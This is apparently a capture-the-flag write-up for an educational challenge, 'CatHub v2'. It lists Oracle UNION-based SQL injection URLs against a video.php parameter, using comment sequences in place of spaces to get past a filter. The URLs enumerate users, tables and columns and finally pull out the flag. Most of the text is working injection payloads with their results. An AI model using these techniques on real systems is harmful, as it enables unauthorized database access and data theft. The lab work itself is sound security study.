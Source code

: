 # CatHub v2 solution step by step

## finished
`https://edu-ctf.csie.org:10159/video.php?vid=-1/**/union/**/all/**/select/**/1,user,null/**/from/**/dual/**/where/**/rownum/**/=/**/1` --> SCOTT
`https://edu-ctf.csie.org:10159/video.php?vid=-1/**/union/**/all/**/select/**/1,SYS.DATABASE_NAME,null/**/from/**/dual` --> XE
`https://edu-ctf.csie.org:10159/video.php?vid=-1/**/union/**/all/**/select/**/DISTINCT/**/1,OWNER,null/**/from/**/ALL_TABLES` --> XDB (DB_NAME_META)
`https://edu-ctf.csie.org:10159/video.php?vid=-1/**/union/**/all/**/select/**/DISTINCT/**/1,OWNER,null/**/from/**/ALL_TABLES/**/where/**/rownum=1` --> SYS (DB_NAME)
`https://edu-ctf.csie.org:10159/video.php?vid=-1/**/union/**/select/**/1,TABLE_NAME,null/**/from/**/ALL_TABLES` --> AUDIT_ACTIONS (TABLE_NAME_META)
`https://edu-ctf.csie.org:10159/video.php?vid=-1/**/union/**/select/**/1,COLUMN_NAME,null/**/from/**/ALL_TAB_COLUMNS` --> ABORT_STEP (COLUMN_NAME_META)
`https://edu-ctf.csie.org:10159/video.php?vid=-1/**/union/**/select/**/1,COLUMN_NAME,null/**/from/**/ALL_TAB_COLUMNS/**/where/**/rownum=1` --> DUMMY (COLUMN)   
`https://edu-ctf.csie.org:10159/video.php?vid=-1/**/union/**/select/**/1,DUMMY,null/**/from/**/sys.dual/**/where/**/rownum=1` --> ERROR  


## currently working on 

`https://edu-ctf.csie.org:10159/video.php?vid=-1/**/union/**/select/**/1,TABLE_NAME,null/**/from/**/USER_TABLES` --> BONUS

`https://edu-ctf.csie.org:10159/video.php?vid=-1/**/union/**/select/**/1,user,null/**/from/**/USER_TABLES` --> BONUS

`https://edu-ctf.csie.org:10159/video.php?vid=-1/**/union/**/select/**/1,TABLE_NAME,null/**/from/**/(SELECT/**/ROWNUM/**/r,/**/TABLE_NAME FROM/**/user_tables/**/ORDER/**/BY/**/TABLE_NAME)/**/WHERE/**/r=1`--> DEPT


`https://edu-ctf.csie.org:10159/video.php?vid=-1/**/union/**/select/**/1,COLUMN_NAME,null/**/from/**/USER_TAB_COLUMNS` --> COMM




## Work part


```
USER_TABLES is tables which you own
ALL_TABLES is tables which own, and tables owner by other users, which you have been granted excplicit access to
DBA_TABLES is all tables in the database
```
`https://edu-ctf.csie.org:10159/video.php?vid=-1/**/union/**/select/**/1,table_name,null/**/from/**/(SELECT/**/ROWNUM/**/r,table_name/**/FROM/**/all_tables/**/ORDER/**/BY/**/table_name)/**/where/**/r=6` --> WORK!!!! S3CRET!

`https://edu-ctf.csie.org:10159/video.php?vid=-1/**/union/**/select/**/1,column_name,null/**/from/**/(SELECT/**/ROWNUM/**/r,column_name/**/FROM/**/user_tab_columns/**/ORDER/**/BY/**/column_name)/**/where/**/r=19` --> WORK!!!! V3RY_S3CRET_C0LUMN!

`https://edu-ctf.csie.org:10159/video.php?vid=-1/**/union/**/select/**/1,V3RY_S3CRET_C0LUMN,null/**/from/**/S3CRET` --> FLAG{HEY___OR@CLE_D4TAB4S3__INJ3CTI0N_I5____TO0OOO0OOO0OO_E4SY!!!!!??}